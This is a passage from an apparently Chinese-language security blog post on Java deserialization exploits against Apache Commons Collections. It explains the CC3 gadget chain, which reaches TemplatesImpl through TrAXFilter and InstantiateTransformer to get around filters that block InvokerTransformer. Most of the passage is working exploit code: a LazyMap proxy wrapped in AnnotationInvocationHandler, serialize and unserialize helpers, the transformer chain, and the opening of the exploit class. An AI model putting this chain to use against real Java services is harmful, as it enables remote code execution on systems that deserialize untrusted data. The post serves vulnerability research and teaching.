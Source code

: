 ```plain
    Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},h);
    Object o = annotationInvocationhdlConstructor.newInstance(Override.class,mapProxy);

//    serialize(o);
    unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

### EXP(CC3绕过过滤)：

我们可以发现如果被禁用了InvokerTransformer的话，CC哪条链都无法执行，这样的话我们就考虑能否不使用他来构造链子，于是就想找到一个不使用InvokerTransformer里面反射调用的方法，找到一个可以直接调用Templateslmpl的newTransformer的类：

[![](assets/1701612311-a1c3f61cbf17e09b73e7dc92bc4a6dae.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235505-77e9b3c2-20cc-1.png)

所以CC3链子的作者找到了这样的一个类`TrAXFliter`（不存在序列化接口），可以直接调用newTransformer的类：

[![](assets/1701612311-a1d364970a8d056ce7fa1e65406aea52.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235512-7c848a1a-20cc-1.png)

通过chainedTransformer类中的transform方法，先传入TrAXFilter.class，然后在通过InstantiateTransformer（存在序列化接口）的transform方法，对上面类和类的构造方法进行调用并将`TemplatesImpl Templates = new TemplatesImpl();`传入，触发TrAXFliter构造方法中的Templates.newInstance()方法。

```plain
Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{Templates})

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);
//        chainedTransformer.transform(1);
```

[![](assets/1701612311-ce96ba3f8030d601f058a2f86ea3750f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235523-8305db28-20cc-1.png)

```plain
package EXP;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;


```